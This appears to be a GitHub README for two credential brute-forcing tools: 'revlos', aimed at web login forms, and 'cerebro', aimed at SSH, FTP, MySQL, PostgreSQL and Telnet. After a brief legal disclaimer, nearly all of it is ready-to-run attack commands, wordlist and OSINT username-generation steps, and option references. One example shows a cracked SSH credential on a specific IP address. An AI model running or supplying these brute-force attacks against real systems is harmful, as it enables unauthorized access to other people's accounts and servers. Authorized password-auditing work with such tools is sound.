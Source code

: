 Unauthorized access to computer systems is illegal. Always obtain written permission before testing. The authors assume no liability for misuse of this tool.


## Installation

### revlos (HTTP/HTTPS Web Login Brute-Forcing)

```bash
# Get
git clone https://github.com/emdnaia/revlos.git
cd revlos

# Initialize a Go module
go mod init revlos

# Download dependencies
go mod tidy

# Build
go build -o revlos revlos.go

# Optional: Install dependencies for full features
# Hashcat (for keyword password generation)
sudo apt install hashcat

# CUPP (for personalized password generation)
git clone https://github.com/Mebus/cupp.git

# username-anarchy (for OSINT username generation)
git clone https://github.com/urbanadventurer/username-anarchy.git
```

---

### cerebro (Multi-Protocol Authentication Testing)

```bash
# Navigate to project directory
cd /path/to/brute-forcing

# Download dependencies
go get github.com/go-sql-driver/mysql
go get github.com/jlaffaye/ftp
go get github.com/lib/pq
go get golang.org/x/crypto/ssh

# Build
go build -o cerebro cerebro.go

# Verify installation
./cerebro --help
```

---

## ? revlos - HTTP/HTTPS Web Login Brute-Forcing

### Basic Usage

```bash
# Auto-detection mode (recommended)
./revlos --auto -L users.txt -P passwords.txt http://target.com

# Manual mode with form specification
./revlos -L users.txt -P passwords.txt \
  http://target.com \
  http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"

# HTTP Basic Authentication
./revlos --auto -L users.txt -P passwords.txt --basic-auth http://target.com

# Stop on first valid credential
./revlos --auto -L users.txt -P passwords.txt -f http://target.com

# Headless mode for JavaScript/SPA sites
./revlos --auto -L users.txt -P passwords.txt --headless http://target.com
```

---

### Usage Examples

#### Web Application Login
```bash
./revlos --auto -L usernames.txt -P rockyou.txt \
  -f --timeout 15 http://example.com/login
```

#### Custom Success Detection
```bash
./revlos -L users.txt -P passwords.txt \
  --success-text "Welcome" \
  --any-redirect \
  http://target.com/auth
```

#### OSINT-Enhanced Attack
```bash
./revlos --osint --auto -L users.txt -P passwords.txt \
  --username-anarchy-path ./username-anarchy/username-anarchy \
  http://corporate-site.com/login
```

#### Rate-Limited Target
```bash
./revlos --auto -L users.txt -P passwords.txt \
  -t 10 --timeout 30 \
  http://slow-target.com
```

#### Single Credential Test
```bash
./revlos -l admin -p Admin123 --auto http://target.com
```

---

### Command-Line Options

#### Core Options
```
-l <user>          Single username (literal)
-L <file>          Username list file or URL
-p <pass>          Single password (literal)
-P <file>          Password list file or URL
-f                 Stop on first valid credential
-s <port>          Port (default: 80)
-t <threads>       Parallel tasks (default: 100)
-q                 Quiet mode
-v                 Verbose mode
```

#### Auto-Detection
```
--auto             Auto-detect form fields and error messages
--headless         Use headless browser for JavaScript sites
--basic-auth       Force HTTP Basic Authentication mode
```

#### Success Detection
```
--success-text <s>    Text in response indicating success
--success-cookie <c>  Cookie name indicating success
--success-code <c>    HTTP status codes for success (e.g., 200,302)
--any-redirect        Treat any 3xx redirect as success
```

#### Advanced Options
```
--timeout <n>         Request timeout in seconds (default: 10)
--max-time <n>        Maximum total time in seconds
--method <m>          HTTP method: GET or POST (default: POST)
--header <h>          Custom headers (comma-separated)
--learning-rate <r>   RL learning rate 0.0-1.0 (default: 0.4)
--batch-size <n>      Credentials per batch (default: 150)
```

#### OSINT Options
```
--osint                      Enable OSINT intelligence gathering
--username-anarchy-path <p>  Path to username-anarchy tool
```

---

## ? cerebro - Multi-Protocol Authentication Testing

### Basic Usage

```bash
# SSH brute-forcing
./cerebro -M ssh -h target.com:22 -u admin -P passwords.txt -t 8 -rl -f

# FTP brute-forcing
./cerebro -M ftp -h target.com:21 -u admin -P passwords.txt -t 8 -rl -f

# MySQL brute-forcing
./cerebro -M mysql -h target.com:3306 -u root -P passwords.txt -t 8 -rl -f

# PostgreSQL brute-forcing
./cerebro -M postgres -h target.com:5432 -u postgres -P passwords.txt -t 8 -rl -f

# Multiple users (username list)
./cerebro -M ssh -h target.com:22 -L users.txt -P passwords.txt -t 8 -rl -f
```

---

### Usage Examples

#### SSH Attack with RL
```bash
./cerebro -M ssh -h 83.136.249.47:48825 -u satwossh -P passwords.txt -t 8 -rl -f
# Result: Found satwossh:password1 in 5.26s (23 attempts)
```

#### FTP Brute-Force (Multiple Users)
```bash
# Generate username variations first
cd username-anarchy
./username-anarchy Thomas Smith > ../thomas-users.txt
cd ..

# Attack with cerebro
./cerebro -M ftp -h target.com:21 -L thomas-users.txt -P passwords.txt -t 8 -rl -f
```

#### MySQL Root Password Recovery
```bash
./cerebro -M mysql -h localhost:3306 -u root -P rockyou.txt -t 10 -rl -f
```

#### SSH with Rate Limiting (Fewer Threads)
```bash
./cerebro -M ssh -h target.com:22 -u admin -P passwords.txt -t 4 -rl -f
```

#### Quiet Mode (No Progress Output)
```bash
./cerebro -M ssh -h target.com:22 -u admin -P passwords.txt -t 8 -rl -f -q
```

---

### Command-Line Options

#### Core Options
```
-M <protocol>      Protocol (short): ssh, ftp, mysql, postgres, telnet
--protocol <p>     Protocol (long)
-h <host:port>     Target host and port
-u <user>          Single username
-L <file>          Username list file
-p <pass>          Single password
-P <file>          Password list file
-t <threads>       Parallel workers (default: 20)
-f                 Stop on first success (default: true)
-q                 Quiet mode
```

#### RL Options
```
-rl                Use RL algorithms (default: true)
--learning-rate <r>   RL learning rate 0.0-1.0 (default: 0.4)
--batch-size <n>      Credentials per batch (default: 150)
```

#### Supported Protocols
```
ssh         SSH (Secure Shell) - Port 22
ftp         FTP (File Transfer Protocol) - Port 21
mysql       MySQL Database - Port 3306
postgres    PostgreSQL Database - Port 5432
telnet      Telnet - Port 23
```
